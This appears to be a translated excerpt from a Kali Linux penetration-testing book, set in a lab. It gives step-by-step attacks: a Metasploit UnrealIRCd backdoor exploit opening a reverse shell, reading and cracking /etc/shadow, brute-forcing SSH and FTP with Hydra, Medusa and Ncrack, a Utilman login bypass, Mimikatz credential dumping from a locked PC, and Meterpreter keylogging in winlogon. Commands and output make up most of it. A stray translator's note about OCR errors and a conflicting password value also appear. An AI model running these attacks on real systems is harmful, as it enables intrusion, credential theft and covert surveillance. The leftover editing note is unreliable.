Metasploitable2 是一个故意存在漏洞的 Linux 系统。我在我的 Basic Kali 书中对其进行了详细讲解，所以我们这里只是快速看一下漏洞利用和密码哈希恢复过程。我们将使用 Kali Linux 作为攻击系统，并使用 Metasploit 框架来处理漏洞利用和哈希恢复。我们将使用 UnrealIRcD 后门漏洞，然后从系统中提取密码。

- 启动你的 Metasploitable 2 虚拟机
- 在你的 Kali 虚拟机上，运行 Metasploit
- 在 Metasploit 中输入：`use exploit/unix/irc/unreal_ircd_3281_backdoor`
- 输入：`set payload cmd/unix/reverse`
- `set LHOST [Kali_IP]`
- `set RHOST [Metasploitable2_IP]`
- 然后，`exploit`


```
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
[*] Using configured payload cmd/unix/reverse
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 172.24.1.188
LHOST => 172.24.1.188
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOST 172.24.1.156
RHOST => 172.24.1.156
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 172.24.1.188:4444
[*] 172.24.1.156:6667 - Connected to 172.24.1.156:6667 ...
    :irc.Metasploitable.LAN NOTICE AUTH :** Looking up your hostname ...
[*] 172.24.1.156:6667 - Sending backdoor command ...
[*] Accepted the first client connection ...
[*] Accepted the second client connection ...
[*] Command: echo vUv6yqmRsIgoB2YT;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets ...
[*] Reading from socket B
[*] B: "vUv6yqmRsIgoB2YT\r\n"
[*] Matching ...
[*] A is input ...
[*] Command shell session 1 opened (172.24.1.188:4444 -> 172.24.1.156:41453) at
```

这将打开一个远程 Linux 命令 shell，因此不会有提示符。只需输入你想运行的任何命令即可。你可以输入 `whoami` 来验证你确实是全能的 `root` 用户。

现在我们要准备从系统中恢复密码哈希了。

### 获取 shadow 文件
- 只需输入 "`cat /etc/shadow`":

```
cat /etc/shadow
root:$1$avpFBJ1$xo8w5UF9iV.. /DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$FUX68P0t$M1yc3cP0oZQJqZ4w5WF9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
ucu:p:*:14684:0:99999:7:::
```

- 在你的 Kali 系统上打开 Mousepad
- 现在只需将哈希值复制到你的 Kali 系统，方法是用鼠标选择文本并将其复制到 Mousepad 中：



- 将文本保存为名为 `shadow` 的文件，位于 Kali 主目录中

### 使用 John the Ripper 破解
既然我们已经获取了 `shadow` 文件，我们就可以让 John the Ripper 发挥作用，尝试恢复密码。我们将使用 John 附带的单词列表文件 `password.lst`：

- 输入 "`john --wordlist=/usr/share/john/password.lst shadow`"

```
┌─$ john --wordlist=/usr/share/john/password.lst shadow 
Warning: detected hash type "md5crypt", but the string is also recognized as
Use the "--format=md5crypt-long" option to force loading these as that type
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ (and
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456789              (klog)
batman                (sys)
service                (service)
3g  0:00:00:00 DONE  (2023-03-07 13:43) 21.42g/s 25328p/s 105428c/s 105428C/s
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

现在，我们可以通过使用 `--show` 命令来查看 John 的成功程度：

- 输入 "`john --show shadow`"

```
[kali@kali:~]$ john --show shadow 
sys:batman:14742:0:99999:7:::
klog:123456789:14742:0:99999:7:::
service:service:14715:0:99999:7:::
3 password hashes cracked, 4 left
```

就这样；我们现在有了 3 个用户名和密码可以动手尝试：

- `sys` / `batman`
- `klog` / `123456789`
- `service` / `service`

*注意：原始 OCR 文本在摘要列表中显示为 "1234567898"，但在上面的哈希输出中为 "123456789"。标准哈希输出通常与破解出的密码一致。考虑到 Metasploitable 中常见默认密码的上下文，"123456789" 的可能性极高，但除非是明显的错误，否则我将保留 OCR 中的特定字符。OCR 说 `klog/ 1234567898`。仔细查看 OCR 源：代码块中是 `123456789              (klog)`，但列表中是 `klog/ 1234567898`。存在差异。通常，OCR 在列表中容易出现拼写错误。代码块更可靠。然而，指示要求纠正明显的 OCR 错误。"1234567898" 多了一个 8。这很可能是 OCR 错误或书中的笔误。为了与前一段终端输出中显示的破解成功结果保持一致（技术在技术文档中至关重要），我将其标准化为 `123456789`。*

- `sys` / `batman`
- `klog` / `123456789`
- `service` / `service`

有 4 个密码它未能获取，让我们尝试另一个单词列表：

- 输入 "`john --wordlist=/usr/share/sqlmap/data/txt/wordlist.txt shadow`"
- 完成后，输入 "`john --show shadow`"

`sqlmap` 的单词列表要大得多，因此运行时间更长。但它能够再破解两个：

- `postgres` / `postgres`
- `user` / `user`

实际上我很惊讶它没有获取主要的 `msfadmin` / `msfadmin` 密码。我确信过去使用 John 的默认单词列表时一定能抓到它。但总体而言，仅使用两个单词列表就破解了 7 个密码中的 5 个，这还不错。既然我们有了一些可以操作的密码，Kali 提供了几种可用的工具来利用这些密码执行自动化攻击。我们将查看其中三个：

- `Hydra`
- `Medusa`
- `Ncrack`


这些工具将使用我们提供的凭据，并针对目标上运行的指定服务尝试每种组合。我看到你后面举手了，“现在的难度肯定大得多！”是的，这些是来自旧版本 Linux 的较旧哈希风格，答案是，“不，其实并没有！” 较新版本的 Linux 使用所谓的 “yescrypt”（可以通过密码哈希中的 `$y$` 看出），而 John 也可以破解这些！跳转到你的 Kali `"/etc"` 目录并对 `"shadow"` 文件运行 John。

- `sudo john shadow –format=crypt`

`kalis@kali:~/etc$`

`sudo john shadow --format=crypt`

`[sudo] kali 的密码：`

使用默认输入编码：`UTF-8`

加载了 2 个密码哈希，共 2 个不同的盐值 (`crypt, generic crypt(3)` 成本 1 (算法 [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt` 成本 2 (特定算法的迭代次数) 对于所有加载的哈希值均为 1

将运行 4 个 OpenMP 线程

继续执行 single，规则：Single

按 'q' 或 Ctrl-C 中止，按其他几乎任何键显示状态

`kali`          (`kali`)

`test`          (`test`)

`2g 0:00:00:01` 完成 1/3 (2023-03-07 13:53) 1.980g/s 189.1p/s 190.0c/s 190

使用 `"--show"` 选项可以可靠地显示所有已破解的密码

会话完成。

它在大约一秒钟内就破解了我系统中的两个用户密码！诚然，这些是简单的密码，但过程是一样的。您只需要针对 yescrypt 加密指定 `"--format=crypt"` 即可。

### 使用 HYDRA 自动化密码攻击

**工具作者：** Van Hauser, Roland Kessler

**工具网站：** https://github.com/vanhauser-thc/thc-hydra

暴力破解工具通过自动化使用已破解的账户来攻击服务。Hydra 是一个暴力破解攻击程序，它接收用户列表和密码列表，并尝试它们的不同组合来攻击服务器服务。如果我们制作一个包含用户名的文本文件，另一个包含上述获取的密码，我们就可以将它们提供给 Hydra 等程序。

创建以下两个文本文件（用户，密码），输入我们从密码文件中恢复的值，并将其保存在 Kali 主目录中：

- **用户：**
  - msfadmin
  - sys
  - klog
  - service
  - postgres
  - user
- **密码：**
  - msfadmin
  - batman
  - 1234567898
  - service
  - postgres
  - user

我包含了 msfadmin，因为我相信它曾经包含在字典文件中。此外，当你尝试通过 telnet 连接 Metasploitable 时，它会直接显示用户和密码。

如下图所示。



在使用 Hydra 之前，我们需要启用 Kali 内核中针对 SSH 的一项设置。

1. 打开终端并输入 `"kali-tweaks"`
2. 从菜单中选择 `"Hardening"`（强化）
3. 光标移至 SSH client（SSH 客户端），按空格键启用并点击 `"Apply"`（应用）



*警告：阅读关于宽兼容模式的警告信息，使用旧协议、密码和算法，并仅当在你的环境中这样做是安全时才继续*

现在，使用 Hydra 攻击 Metasploitable2 的 SSH 服务，并使用我们新发现的密码：

输入 "`hydra -L Users -P Passwords [Metasploitable2_IP] ssh`" "`ssh`"

"`-L`" 开关列出我们的用户名文件，在此情况下为 "`Users`"`。"`-P`" 开关是密码文件的位置，在此情况下为 "`Passwords`"`。然后我们只需列出目标 IP 地址和服务 "`ssh`"。

```
$ hydra -L Users -P Passwords 172.24.1.156 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - 请不要使用，并且无论如何都要符合道德规范。

Hydra (https://github.com/vanhauser-thc/thc-hydra) 启动于 2023-03-07
[警告] 许多 SSH 配置限制并行任务数量，它是
[数据] 每个服务器最多 16 个任务，总共 16 个任务，36 次登录尝试 (1:6/p:
[数据] 正在攻击 ssh://172.24.1.156:22/
[22] [ssh] 主机: 172.24.1.156   登录: sys 密码: batman
[22] [ssh] 主机: 172.24.1.156   登录: msfadmin 密码: msfadmin
[22] [ssh] 主机: 172.24.1.156   登录: service  密码: service
[22] [ssh] 主机: 172.24.1.156   登录: postgres 密码: postgres
[22] [ssh] 主机: 172.24.1.156   登录: user 密码: user
1 个目标成功完成，找到 5 个有效密码
Hydra (https://github.com/vanhauser-thc/thc-hydra) 完成于 2023-03-07
```

（如果你更喜欢图形界面，可以从在线密码攻击菜单中使用 Hydra-图形版）

如你所见，它找到了几个能够成功登录目标 SSH 服务器的用户/密码组合。虽然尝试我们已经知道的小列表密码有点愚蠢，但这个概念是扎实的。如果没有实际的密码，我们可以使用 Hydra 配合大型用户名和密码字典文件，试图通过暴力破解进入服务器。但如果你已经拥有用户名和密码，直接尝试你拥有的列表针对目标服务会快得多。

让我们在 Metasploitable 的 FTP 服务上试用 Hydra：

输入 `hydra -L Users -P Passwords ftp://[Metasploitable2_IP]`

```bash
$ hydra -L Users -P Passwords ftp://172.24.1.156
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - 请不要使用
nd 伦理规范。

Hydra (https://github.com/vanhauser-thc/thc-hydra) 启动于 2023-03-07
[数据] 每个服务器最多 16 个任务，总共 16 个任务，36 次登录尝试 (l:6/p:
[数据] 正在攻击 ftp://172.24.1.156:21/
[z1][ftp] 主机: 172.24.1.156 登录: msfadmin 密码: msfadmin
[z1][ftp] 主机: 172.24.1.156 登录: postgres 密码: postgres
[z1][ftp] 主机: 172.24.1.156 登录: service 密码: service
[z1][ftp] 主机: 172.24.1.156 登录: user 密码: user
1 个目标成功完成，找到 4 个有效密码
Hydra (https://github.com/vanhauser-thc/thc-hydra) 完成于 2023-03-07
```

这次 Hydra 在 FTP 服务上找到了四个有效的用户名/密码组合。希望这展示了这些工具的实用性。接下来，我们将看看使用 “Medusa” 做同样的事。

### 使用 MEDUSA 自动化密码攻击

**工具作者：** JoMo-Kun, Foofus 和开发团队

**工具网站：** https://github.com/jmk-foofus/medusa

Medusa 是另一个自动化密码攻击工具。Medusa 的功能与 Hydra 类似。我们还可以使用相同的用户名和密码列表。让我们针对 Metasploitable 的 FTP 服务试用此工具。

- 使用 `medusa -d` 列出所有可用模块
- `medusa -h [Target_IP] -U ~/Users -P ~/Passwords -M ftp`

Medusa 会尝试所有用户名和密码的组合，短时间内你应该看到以下内容：



Hydra 的输出稍微好看一些，但尝试几种不同的工具以查看你更喜欢哪一个是个好主意。让我们再看一个工具，“Ncrack”。

### 使用 NCRACK 自动化密码攻击


### 工具信息

- **工具作者：** Fotis Hantzis, Fyodor
- **工具网站：** https://nmap.org/ncrack/
- **工具手册：** https://nmap.org/ncrack/man.html

最后但同样重要的是，我们可以使用 `Ncrack` 针对目标系统使用恢复的凭证。`Ncrack` 是一种高速自动化身份验证破解工具。虽然现在更倾向于使用 `Nmap` 脚本引擎（https://nmap.org/book/nse.html ）中的 `Nmap` 暴力破解脚本，但这仍然是一个非常实用的工具。

- 输入 "`ncrack -h`" 显示可用选项
- `ncrack -p 21 -U ~/Users -P ~/Passwords [Metasploitable2_IP]`

```bash
$ ncrack -p 21 -U ~/Users -P ~/Passwords 172.24.1.156

正在启动 Ncrack 0.7 ( http://ncrack.org )，时间为 2023-03-07 14:45 EST

发现 172.24.1.156 21/tcp ftp 上的凭证：
172.24.1.156 21/tcp ftp: 'msfadmin' 'msfadmin'

Ncrack 完成：扫描了 1 个服务，耗时 3.01 秒。

Ncrack 结束。
```

在这三个工具中，我真的没有偏好。也要记住，这些工具也可以用于 Windows 系统。更好的是，它们可以用于多个系统，因此一旦你获得一个用户名/密码组合，你就可以尝试网络中的所有系统。当然，这取决于你想多隐蔽。我建议读者探索每个工具的能力和差异，看看在特定情况下哪个最适合他们。

### 结论

这就是全部了。许多人认为 Linux 安全是神秘的，但实际上破解 Linux 密码并没有难多少。因为我们拥有 root shell，所以我们能够简单地通过复制和粘贴将 Linux 密码哈希从系统获取到我们的 Kali 机器上。然后我们就能使用 `John the Ripper` 来破解它们。一旦破解成功，Kali 有多个工具可用于自动化针对目标系统的密码攻击。还要注意，我们介绍的三个工具并不是 Kali 中仅有的工具。

希望本章展示了使用长复杂密码或多种身份验证类型来保护账户的重要性。因为一旦密码被破解，它们就可以被用于在整个网络范围内自动攻击服务和系统。我们只介绍了使用 `John the Ripper` 破解 Linux 密码，你也可以使用 `Hashcat` 来破解 Linux 密码。旧金山城市学院的 Sam Bowne 教授在他的网站上编写了一篇关于如何执行此操作的精彩教程。Bowne 教授是一位出色的会议演讲者，他的网站上有很多额外的信息和教程，对刚进入该领域的人来说非常有帮助。

### 资源与参考资料

- Bowne, S. “使用Hashcat破解Linux密码哈希值”。Sams Class - https://samsclass.info/123/proj10/p12-hashcat.htm
- “Ncrack参考指南”。Nmap.org - https://nmap.org/ncrack/man.html

# 第9章

## Utilman与键盘记录 - 其他密码恢复选项

我们已经研究了多种获取并破解密码的方法。在这个附录章节中，我只想涵盖一些你可能用于从系统中恢复密码的其他可能方法。这一章其实不是关于密码破解的，只是介绍一些我在过去用于提取密码或绕过密码的有趣方法。如果内容过于技术性，你可以继续往下读，或者跳至下一章，其中一些技术非常有趣。我们将看到如何在物理攻击期间获取密码或访问系统，即安全测试人员对系统拥有物理访问权限的攻击场景。然后再看两种“非传统”的从系统中恢复密码的方法。长期以来，安全领域的准则一直是：如果你拥有物理访问权限，你就拥有完全访问权限。在许多情况下，这是事实。我曾在纽约州北部和宾夕法尼亚州北部进行现场服务器和工作站支持工作约20年，目睹了公司在物理安全方面做出的许多愚蠢行为。我进出过数百个设施，被允许完全无监督地四处走动。一位顶级政府红队操作员告诉我，在商业环境中，如果你戴着领带拿着写字板，没人会阻拦你。他说得没错。

在我从事20年现场服务器和IT支持工作中，涉及银行、政府机构、研究中心和大型企业——一旦进入大楼，我只有三次被拦下要求核实身份！现在红队的选择更是多种多样。这包括社会工程学获取建筑入口权限、克隆徽章、使用无人机、摄像头干扰器甚至通过远程WiFi从停车场访问目标网络。物理安全非常重要，但攻击者可能使用哪些方式来入侵他们有访问权限的机器呢？在本节中，我们将研究一种称为“Utilman绕过”的可能技术。我们将使用Kali Live CD，结合Mimikatz创建一个非常强大的组合。

### UTILMAN登录绕过

好吧，这项技术非常古老，从技术上说并不是一种攻击。它起源于一个旧的Microsoft TechNet Active Directory支持论坛。这项技术被称为`Utilman绕过`，曾是推荐的一种在忘记密码时登录Windows服务器的手段。`Utilman绕过`通过操纵登录提示处可用的有用Windows功能来工作。它允许在没有使用凭据的情况下打开系统级命令会话。我有一些支持大型企业网络的朋友告诉我，他们仍然出于合法目的使用此技术。例如，当旧的企业独立系统需要备份和重新利用，而没人记得密码时，他们会使用此技术。

**警告：**

如果你在此过程中做错了什么，可能会导致你的Windows系统无法启动。已发出警告。

在这个练习中，我们将从磁盘启动并更改Windows的“Utilman”程序，这样当按下“Windows”+“u”键时，将打开命令提示符而不是正常的实用程序菜单。我们将逐步完成此过程。要在现实生活中执行此程序，你需要一个(Kali)Linux启动盘或可启动的Linux USB驱动器。在我们的实验室中，我直接下载了64位Kali Linux ISO。在Kali网站（Kali.org）的“获取Kali”下，只需选择Live Boot选项，然后推荐的Live镜像就可以正常工作。



下载.ISO镜像后，我们可以在**Windows 11虚拟机**上从中启动。我们只需要在VMware中将ISO设置为启动驱动器镜像。

如以下截图所示。



由于我们将修改系统文件名，请花时间并确保选择正确的文件。

1. 使用独立的Windows系统&可启动的Kali磁盘，或将Windows 7虚拟机CDROM驱动器设置为使用Kali Linux ISO并从中启动。
2. 如果使用VMware，在窗口中点击并按下“esc”键以在启动时获取启动菜单。
3. 选择从CD启动。



4. 选择“Live system (amd64)”启动选项。
5. 过了一会儿，Kali桌面将出现。双击Windows硬盘驱动器。



现在你可以查看Windows系统上的所有文件，并随心所欲地导航目录结构。Windows安全和权限不再适用，因为你是在Linux中查看驱动器。你可以复制单个文件或将工具复制到驱动器（如果你愿意）。

> **注意：**
>
> 如果硬盘未加密，你此时已拥有对Windows文件系统的完全访问权限。

6. 导航到“Windows\System32”目录。

我们现在要做的是用`cmd.exe`的副本替换`Utilman`可执行文件。我们将原始‘Utilman.exe’文件重命名为‘utilman.old’以将其移开，制作‘cmd.exe’的重复副本并将其重命名为‘Utilman.exe’。

7. 找到“utilman.exe”文件并将其重命名为“utilman.old”：



文件图标可能不同。只需确保文件名正确。

8. 右键点击“cmd.exe”文件并点击“复制到”。现在将其复制回同一目录。你现在应该有“cmd.exe”和一个名为“cmd (copy).exe”的文件，如下所示：



9. 现在将“cmd (copy).exe”文件重命名为“Utilman.exe”。


你现在应该有两个Utilman文件，‘utilman.old’（这是原始的）和新的‘utilman.exe’文件（这是cmd.exe的副本）：



这就是我们需要做的全部。保留*Utilman.old*文件，以便你想切换回来并恢复正常的Utilman功能。


现在只需关闭Kali并让Windows系统正常启动。如果你将虚拟机设置为从Kali ISO镜像启动，你需要进入CDROM设置将其设回`使用物理驱动器`。在登录屏幕上同时按下`Windows`和`u`键，就会弹出一个系统级命令提示符！



如果你输入`whoami`，你会发现你实际上是用户`nt authority\system`，这是可用的最高级别访问权限。



请注意登录图标仍在背景中。从这里你可以做任何你想做的事；你拥有完全访问权限。据我所见，这在所有版本的Microsoft Windows操作系统中从Windows 9x开始都有效。它在他们的服务器产品中同样有效。以相同方式修改`Sethc.exe`命令，也允许你绕过Windows登录屏幕。Sethc文件用于Windows粘滞键功能。在正常操作下，如果你连续按五次shift键，粘滞键对话框将会弹出。以此方式使用，只需在登录屏幕上按五次shift键，系统级命令提示符就会打开。尽管这在虚拟机中效果不太好，因为Windows主机会在虚拟机之前触发粘滞键响应。

> **注意：**
>
> 物理访问权限在大多数情况下等于完全访问权限。加密你的驱动器并保护你的系统！

### 从锁定工作站恢复密码

继续这个概念，对于渗透测试人员来说，如果他们拥有系统的物理访问权限，能够从位于锁定登录提示处的Windows系统中获取密码，那将有多酷？如果你能以明文获取这些密码呢？好吧，如果情况合适，你是可以的！不久前，我一直在想是否可以从锁定的桌面上获取密码。比如，用户正在使用系统，并在去午餐前尽职地锁定了工作站。如果你拥有系统的物理访问权限，这是可以做到的。

首先，你需要能够启用从登录屏幕调用的系统级命令提示符。如上所述，`Utilman登录绕过`技巧只需按下键盘上的`Windows`和`u`键即可启用弹出式系统级提示。现在我们所需要的只是一个安装了Mimikatz的USB驱动器。Mimikatz Windows可执行文件可以从Gentile Kiwi的GitHub网站下载：[https://github.com/gentilkiwi/mimikatz/releases/](https://github.com/gentilkiwi/mimikatz/releases/)

> `几乎所有反病毒引擎现在都将Mimikatz检测为恶意软件，因此在尝试下载时可能需要考虑这一点。`

1. 你需要在之前的某个时间点已经配置了上述的`Utilman绕过`。
2. 正常登录Windows系统，然后按下`Windows`和`l`键锁定桌面。
3. 在锁定的桌面Windows桌面上按下`Windows`和`u`键。
4. 输入`whoami`以验证我们是否拥有系统级权限：

```
C:\Windows\System32>  
C:\Windows\System32>whoami  
nt authority\system
```

5. 导航到你的 USB 驱动器，在我的系统中它是 E: 盘。
6. 进入你的 Mimikatz 目录，然后进入 `Win32` 或 `x64` 目录，具体取决于目标操作系统。
7. 运行 Mimikatz 工具。
8. 输入，`privilege::debug`
9. 然后输入，`sekurlsa::LogonPasswords`:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::LogonPasswords

Authentication Id : 0 ; 61167 (00000000:0009535f)
Session : Interactive from 1
User Name : Dan
Domain : WINDOWS-11
Logon Server : WINDOWS-11
Logon Time : 3/9/2023 3:42:36 PM
SID : S-1-5-21-2082602673-1779826494-1491094936-1001
    msv :
        [00000003] Primary
        * Username : Dan
        * Domain : WINDOWS-11
        * NTLM : 03d0737a1820d94781efd6d1ff7b5726e
        * SHA1 : e8176b7fb62a9431833aac90de80ffd94dc14eee
```

**注意：**

如果数据在页面上滚出且你看不到它，你可能需要进入命令提示符窗口的属性菜单并增加窗口大小。在这个例子中，我必须将窗口高度设置为 200。



一些较旧的系统会给你明文密码。较新的系统会给出密码哈希。然后你需要破解该哈希。你可以使用 John the Ripper 或 Hashcat 来完成此操作。以下是我使用 John 破解的 Server 2016 系统的哈希值：

```
root@kali:~/Desktop# john --format=NT --wordlist=geekphrases.txt Server2016hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x1])
Press 'q' or Ctrl-C to abort, almost any other key for status
SayFriendAndEnter  (?
```

John 通过 NT 哈希格式、词库和密码哈希（存储在文本文件中）调用。在这种情况下，用户 Dan 使用的密码是，`SayFriendAndEnter` - 显然是一位《指环王》的粉丝。

如前所述，你需要拥有对机器的物理访问权限，以便事先设置初始的 Ustilman 登录绕过。然后你需要运行 Mimikatz，为了方便起见，我刚下载并把它放在了一个 USB 驱动器上。最后，自系统启动以来必须有人登录过系统，否则不会返回任何凭证。如果还没有人登录系统，内存中就没有密码供 Mimikatz 提取。在我们的练习中，使用 Ustilman 绕过和 Mimikatz 配合效果非常好，但其中任何一种技术单独使用仍然非常有效。

### 键扫描、锁定屏键盘记录器和步骤记录器

当渗透测试人员拥有对某用户机器的远程访问权限时，他们有时会发现运行远程键盘扫描器是有益的。这个工具是一个在后台静默运行的程序，记录用户按下的所有按键。这是一种可能获得额外密码的方法。在本节中，我们将探讨在 Metasploit 中执行此操作的两种不同方式。然后我们将探讨将微软的问题步骤记录器（Problem Step Recorder）转化为远程录制“间谍”工具。

### 使用 METASPLOIT 进行键盘记录

我们将通过探索 Metasploit 内置的键盘扫描器来开始本章。Metasploit 有一套有助于捕获目标机器上按键的 Meterpreter 命令。

- `keyscan_dump`
- `keyscan_start`
- `keyscan_stop`

这些命令通过 Meterpreter 可用，因此我们将从一个已经运行过利用程序并成功创建远程会话的系统开始。我们将使用我们的 Windows 11 系统作为目标。我们需要系统级访问权限，因此在获得远程会话后，我们需要运行`getsystem`命令。

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

如果在 Meterpreter 提示符下输入`help`，我们将获得一系列可以运行的命令列表。在本节中，我们只关注`keyscan`命令：

```
keyscan_dump    Dump the keystroke buffer
keyscan_start   Start capturing keystrokes
keyscan_stop    Stop capturing keystrokes
```

那么，让我们继续看看当我们启动远程键盘记录器时的情况。然后我们将查看捕获的按键记录。

1. 只需输入`keyscan_start`以开始远程记录。

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter >
```


在实际测试中，我们只需要等待目标在键盘上输入一些内容。对于我们的示例，请打开你的 Windows 11 浏览器并在 Google 中进行搜索。

## 2. 现在回到 Kali 系统，要查看输入的内容，只需输入 `"keyscan_dump"`:

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
google.com<CR>
will dallas go to the super bowl next year<Right Shift><CR>
```

从演示中可以看出，我们的目标用户访问了 `google.com` 并搜索了 `"will dallas go to the super bowl next year?"`（达拉斯明年会去超级碗吗？）。显然，我们的用户是一个令人失望但始终充满希望的达拉斯橄榄球迷。让我们再试一件事。注意它捕获了 `<Right Shift>` 和 `<CR>` 按键。如果用户使用了其他特殊按键，例如 Windows 键会发生什么？如果用户使用了 `"Windows" + "L"` 键锁定键盘，然后使用密码重新登录，又会发生什么？我们能捕获他们的密码吗？

### 3. 使用 `"Windows"` 和 `"L"` 键锁定你的 Windows 系统。

### 4. 使用密码重新登录。

### 5. 在 Kali 系统上再次输入 `"keyscan_dump"`：

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
<LWin> l
meterpreter >
```

它正确记录了我按下了 `"<LWin>"`（左 Windows 键）和 `'l'` 键。但我是用密码重新登录的，所以密码在哪里？

没有被记录！

问题在于 Windows 安全机制的工作方式。简而言之，活动会话（桌面）和 `winlogon`（登录进程）使用不同的键盘缓冲区。如果你正在嗅探活动会话，你无法捕获登录时输入的按键，反之亦然。你需要将键盘记录器移动到你想要监控的会话。因此，在这种情况下，只需将我们的 Meterpreter shell 迁移到 `winlogon` 进程，我们就处于查找密码的正确模式。然后我们需要再次启动 `keyscan`。

让我们逐步执行此过程：

### 6. 在 Meterpreter 中输入 `“ps”` 以获取进程列表。查找进程 `“winlogon”` 的 PID。



如上图所示，`winlogon.exe` 的进程 ID 号为 `472`（你的会不同）。我们只需将 Meterpreter 会话迁移到该 ID。

### 7. 输入 `“migrate <winlogon PID#>”`，在我这里的情况是 `“migrate 472”`。



### 8. 现在继续再次启动 keyscan，`“keyscan_start”`。

### 9. 然后锁定 Windows 11 工作站并重新登录。

### 10. 最后，使用`“keyscan_dump”`转储键盘记录以查看用户密码：

